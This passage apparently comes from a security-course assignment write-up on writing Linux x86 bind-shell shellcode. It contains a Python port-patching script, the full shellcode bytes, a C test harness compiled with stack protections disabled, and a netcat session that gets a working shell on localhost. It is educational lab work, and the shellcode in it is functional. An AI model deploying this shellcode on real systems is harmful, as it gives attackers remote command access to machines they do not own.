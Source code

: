 ```python
if byte1 == '':
    byte1 = '0'
byte2 = port_htons[2:4]
shellcode = shellcode.replace('\\x11\\x5c', '\\x{}\\x{}'.format(byte1, byte2))

print('Here\'s the shellcode using port {port}:'.format(port = port))
print(shellcode)

if '\\x0\\' in shellcode or '\\x00\\' in shellcode:
    print('##################################')
    print('Warning: Null byte in shellcode!')
    print('##################################')
```

Here's the script in action:
```
slemire@slae:~/slae32/assignment1$ ./prepare.py 5555
Here's the shellcode using port 5555:
\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x52\x52\x66\x68\x15\xb3\x66\x6a\x02\x89\xe6\xb0\x66\xb3\x02\x6a\x10\x56\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80
```

The shellcode is then added to the test program.
```c
#include <stdio.h>

char shellcode[]="\x31\xc0\x31\xdb\x31\xc9\x31\xd2\xb0\x66\xb3\x01\x6a\x06\x6a\x01\x6a\x02\x89\xe1\xcd\x80\x89\xc7\x52\x52\x52\x66\x68\x15\xb3\x66\x6a\x02\x89\xe6\xb0\x66\xb3\x02\x6a\x10\x56\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x04\x52\x57\x89\xe1\xcd\x80\xb0\x66\xb3\x05\x52\x52\x57\x89\xe1\xcd\x80\x89\xc7\x31\xc9\xb1\x03\x89\xfb\xb0\x3f\x49\xcd\x80\x41\xe2\xf8\x31\xc0\x68\x61\x73\x68\x41\x68\x69\x6e\x2f\x62\x68\x2f\x2f\x2f\x62\x88\x44\x24\x0b\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

int main()
{
        int (*ret)() = (int(*)())shellcode;
        printf("Size: %d bytes.\n", sizeof(shellcode)); 
        ret();
}
```

```
slemire@slae:~$ gcc -o test -fno-stack-protector -z execstack shellcode.c 
slemire@slae:~$ ./test
[...]
slemire@slae:~$ nc -nv 127.0.0.1 5555
Connection to 127.0.0.1 5555 port [tcp/*] succeeded!
whoami
slemire
```
